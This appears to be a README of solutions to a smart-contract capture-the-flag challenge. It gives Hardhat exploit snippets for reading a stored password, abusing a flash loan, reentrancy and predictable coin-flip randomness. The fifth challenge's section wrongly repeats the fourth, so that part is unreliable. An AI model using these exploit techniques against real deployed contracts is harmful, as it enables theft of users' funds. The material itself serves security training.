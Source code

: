 # Smart Contract Security Challenge
---
## Challenge 1

### No Privacy

To exploit the AlicesLock contract, you can follow these steps in the no-privacy.js test file:

#### *Steps to Exploit*

- Access Contract Storage: The password is stored in the contract's storage, so you can read it directly.

- Unlock the Contract: Use the unlock function with the password obtained from storage.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
it("Exploit", async function () {
    // Get the storage slot for the password
    const passwordSlot = await ethers.provider.getStorageAt(this.lock.address, 1);

    // Unlock the contract using the password from storage
    await this.lock.connect(bob).unlock(passwordSlot);
});
```

#### *Explanation*
- `ethers.provider.getStorageAt(this.lock.address, 1)`: This reads the password from the second storage slot (index 1) of the AlicesLock contract.

- `this.lock.connect(bob).unlock(passwordSlot)`: Bob uses the retrieved password to call the unlock function.

---

## Challenge 2

### Do Not Trust

To exploit the  Do Trust Lender pool, you can follow these steps in the do-not-trust.js test file:

#### *Steps to Exploit*

- `DoTrustLender.sol` contract implements a flash loan mechanism that allows borrowers to execute arbitrary functions after borrowing tokens. It inherits from `ReentrancyGuard` to prevent reentrancy attacks on its functions.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const DoNotTrustBobFactory = await ethers.getContractFactory(
      "DoNotTrustBob",
      alice
    );
    this.exploit = await DoNotTrustBobFactory.deploy();
    await this.exploit
      .connect(bob)
      .attack(this.pool.address, this.token.address);
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the `CalyptusToken` and `DoTrustLender` contracts. Transfers 1 million CPT tokens to the lending pool.

- **Exploit**: Bob deploys a contract `DoNotTrustBob` that exploits the `flashLoan` function of `DoTrustLender`. The attack involves borrowing all tokens from the pool and executing a function that transfers them to Bob's account.

---

## Challenge 3

### Re-enter

To exploit the  simple lending pool that allows its users to deposit ETH, you can follow these steps in the reenter.js test file:

#### *Steps to Exploit*

- The smart contract `Reenter.sol` allows users to deposit ETH, withdraw ETH, and execute flash loans. It has a reentrancy vulnerability in the `withdraw` function.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE */
    const bobFactory = await ethers.getContractFactory("ReentersBob", alice);
    this.bobsContract = await bobFactory.deploy(this.pool.address);
    this.bobsContract.connect(bob).attack();
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the ReenterPool contract with an initial balance of 1000 ETH.

- **Exploit**: Bob deploys a contract ReentersBob that utilizes a reentrancy attack via the withdraw function of ReenterPool. The attack allows Bob's contract to repeatedly withdraw ETH from Alice's pool before updating the balance.

---

## Challenge 4

### Head or Tail

The HeadOrTail contract has a vulnerability where the randomness is derived from global variables, making it predictable. you can follow these steps in the rehead-or-tails.js test file:

#### *Steps to Exploit*

- The `HeadOrTail.sol` contract implements a coin flip game where the outcome is determined based on the previous block's hash. This method of generating randomness is predictable and can be exploited.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const Attacker = await ethers.getContractFactory("BobsGuess", bob);

    this.attacker = await Attacker.deploy();
    for (let i = 0; i < 5; i++) {
      this.attacker.connect(bob).cheat(this.headOrTale.address);
    }
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the HeadOrTail contract. Ensures the initial wins count is 0.

- **Exploit**: Bob deploys a contract that predicts the outcome of the coin flip by calculating the block hash and determining the result before calling the flip function.

---

## Challenge 5

### Mount Calyptus

The HeadOrTail contract has a vulnerability where the randomness is derived from global variables, making it predictable. you can follow these steps in the rehead-or-tails.js test file:

#### *Steps to Exploit*

- The `HeadOrTail.sol` contract implements a coin flip game where the outcome is determined based on the previous block's hash. This method of generating randomness is predictable and can be exploited.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const Attacker = await ethers.getContractFactory("BobsGuess", bob);

    this.attacker = await Attacker.deploy();
    for (let i = 0; i < 5; i++) {
      this.attacker.connect(bob).cheat(this.headOrTale.address);
    }
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the HeadOrTail contract. Ensures the initial wins count is 0.

- **Exploit**: Bob deploys a contract that predicts the outcome of the coin flip by calculating the block hash and determining the result before calling the flip function.

